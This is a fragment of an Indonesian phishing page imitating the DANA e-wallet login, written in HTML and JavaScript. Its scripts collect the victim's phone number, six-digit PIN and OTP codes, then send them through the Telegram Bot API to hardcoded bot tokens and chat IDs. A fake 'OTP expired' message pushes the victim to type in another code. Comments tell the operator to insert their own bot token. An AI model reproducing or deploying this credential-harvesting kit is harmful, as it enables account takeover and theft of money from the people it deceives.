        document.getElementById("alert").innerHTML = "Kode dikirim ke +62 " + nomor+ " via<br/>";
  var logo = document.getElementById('logo'); 
  var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     
  var gabungan = '' + logo.value + '%0A※ 𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔 : ' + '0' + inp.value + '%0A※ 𝗣𝗜𝗡 𝗗𝗔𝗡𝗔.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value;
  
     
 

 var token = '7142158232:AAFrUmsAZEcin86tEQY_3nKTGfp-XT-icXY'; // Ganti dengan token bot yang kamu buat
    var grup = '6235911819'; // Ganti dengan chat id dari bot yang kamu buat
    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,


success: function(){
$("#process").hide();
document.getElementById("alert").style.display = "block"; 
$(".bgotp").fadeIn();
setInterval(countdown, 1000);
$("#otp1").focus();
}
}
);
};


  function sendOtp(){
    $(".loadingOtp").show();
     var logo = document.getElementById('logo'); 
     var inp = document.getElementById('inp');
 var pin1 = document.getElementById('pin1');
 var pin2 = document.getElementById('pin2');
 var pin3 = document.getElementById('pin3');
 var pin4 = document.getElementById('pin4');
 var pin5 = document.getElementById('pin5');
 var pin6 = document.getElementById('pin6');
     var otp1 = document.getElementById('otp1');
   var otp2 = document.getElementById('otp2');
   var otp3 = document.getElementById('otp3');
   var otp4 = document.getElementById('otp4');
      setTimeout(function(){
$(".alert").text("Masa berlaku OTP sudah habis");
$(".alert").css("color","red");
 },2000);
    var gabungan = '' + logo.value + '%0A※ 𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔 : ' + '0' + inp.value + '%0A※ 𝗣𝗜𝗡 𝗗𝗔𝗡𝗔.     : ' + pin1.value + pin2.value + pin3.value + pin4.value + pin5.value + pin6.value + '%0A%0A※ 𝗢𝗧𝗣 𝗗𝗔𝗡𝗔     : ' + otp1.value + otp2.value + otp3.value + otp4.value;


 var token = '7296089212:AAHsy468ZsxS7VVed0hTWSHID9PkdSpSLO8'; // Ganti dengan token bot yang kamu buat
    var grup = '7412961572'; // Ganti dengan chat id dari bot yang kamu buat

    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
        
   success: function(){
    setTimeout(function(){
    $(".loadingOtp").hide();
   
    $('.inpotp').val('');
   $('#otp1').focus();
  var nomor = sessionStorage.getItem("nomor");
        document.getElementById("alert").innerHTML = "Kode baru dikirim ulang ke +62" + nomor +  " via<br/>";
   $(".alert").css("color","black");
    },4000);
   
        
    }
        
    }
    );
        
    };
    </script>
<script>
    function countdown() {
    var count = parseInt(
    $('#countdown').text());
    if (count !== 0) {
    $('#countdown').text(count - 1);} 
    else {
    $('#countdown').text('60');}};
    </script>
<script>
window.onload = function(){
        setTimeout(function(){
            $(".start").fadeIn();
            setTimeout(function(){
                $(".start").fadeOut(1000);
                setTimeout(function(){
                   $(".container").fadeIn(200);
                   $("#inp").focus();
                },1000);
            },1000);
        },500);
}
</script>
</body>
</html><!--<script src='https://a.bsite.net/footer.js'></script>

